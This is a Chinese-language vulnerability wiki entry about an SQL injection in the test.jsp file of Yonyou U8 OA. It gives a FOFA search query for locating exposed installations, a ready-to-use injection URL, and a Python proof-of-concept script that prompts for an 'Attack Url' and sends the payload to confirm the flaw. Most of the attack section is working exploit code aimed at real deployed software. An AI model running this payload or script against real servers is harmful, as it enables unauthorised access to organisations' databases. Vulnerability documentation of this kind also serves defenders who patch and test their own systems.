

# 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

```
用友 U8 OA
```

## FOFA

```
"用友U8-OA"
```

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA A6 test.jsp SQL注入漏洞.html)

登录页面如下


POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```


利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

